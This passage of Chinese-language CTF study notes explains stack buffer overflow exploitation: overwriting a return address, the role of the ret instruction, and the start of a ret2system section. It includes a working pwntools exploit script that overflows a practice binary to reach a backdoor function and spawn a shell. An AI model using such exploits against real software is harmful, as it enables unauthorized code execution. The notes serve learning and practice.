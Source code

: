 同样使用上面的程序作为例子：若vuln的返回地址被改写成了main函数的开始位置，那么在vuln函数执行完成之后就会去跳转回main函数，而不会执行下面的print语句。

![1742893584554](C:\Users\16082\AppData\Roaming\Typora\typora-user-images\1742893584554.png)

对于该程序我们可以利用栈溢出把返回地址改写成backdoor的地址，然后去获得shell。

对应的exp为：

```python
from pwn import *

binary_path = "/home/feeling/ctf/exam/ret2backdoor/pwn_program2"
e = ELF(binary_path)

io = process(binary_path)
door = 0x401156		#目标地址
ret = 0x401110		#ret指令的地址
offset = 0x20 + 8   #覆盖垃圾数据的量==原本的数组量+main函数rbp的值
payload=b'a'*offset+p64(ret)+p64(door)

io.sendline(payload)
io.interactive()
```

 `ret`指令的核心功能

- 作用机制

	（return）指令从当前函数返回调用者，具体操作：

	1. **弹出返回地址**：从栈顶（ESP指向的位置）读取4字节（32位系统）或8字节（64位系统）作为返回地址。
	2. **跳转执行**：将程序计数器（EIP/RIP）设置为弹出的地址，实现控制流转移。

- **与`call`的对应**：`call`指令调用函数时会压入返回地址，`ret`则逆向完成这一过程。

为何需要`ret`后才能跳转？

- 栈溢出攻击通过覆盖返回地址（位于栈帧中保存的`EIP`位置）来劫持程序流。
- 攻击者需等待函数执行到`ret`指令时，系统**主动从栈中加载返回地址**到EIP，此时被覆盖的恶意地址才会生效。

## ret2system

先介绍两个函数原型等会利用：

```c
#gets函数原型
char *gets(char *str);

#system函数原型
int system(const char *command);

```

现在可以利用栈溢出来控制程序执行流了，我们就可以跳转去执行我们的指令。

没有现成的backdoor但是有system函数和bin/sh字段可以调用，我们可以手动构建一个backdoor。

构建的backdoor在栈帧里面大概如下图：
